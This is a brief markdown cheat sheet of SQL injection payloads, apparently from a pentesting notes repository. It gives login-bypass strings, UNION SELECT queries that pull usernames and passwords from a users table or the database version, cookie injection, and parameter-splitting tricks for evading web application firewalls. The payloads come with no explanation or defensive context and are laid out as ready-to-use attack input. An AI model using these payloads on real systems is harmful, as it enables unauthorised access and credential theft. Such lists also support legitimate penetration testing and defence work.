 # SQLI

## Login

`'`

`' OR '1'='1`

`' OR 1=1--`

`" OR "1"="1`

`1" OR "1"="1`

`1' || '1'='1`

`") or ("1")=("1 --`

`('a'='a and hi")or ("a"="a` 

## URL

`?id=1`

`?id=1'`

`?id=1--`

`?id=1' UNION SELECT 1,2,3,4--+`

`?id=1' UNION SELECT username, password FROM users--`

## Cookies 

`' union SELECT version(),user(),database()#`

## WAFs

`?id=1&id=0' +union+select+1,@@version,database()--+`

`?id=1&param=UNI&param2=ON SEL&param3=ECT 1,2,3--`
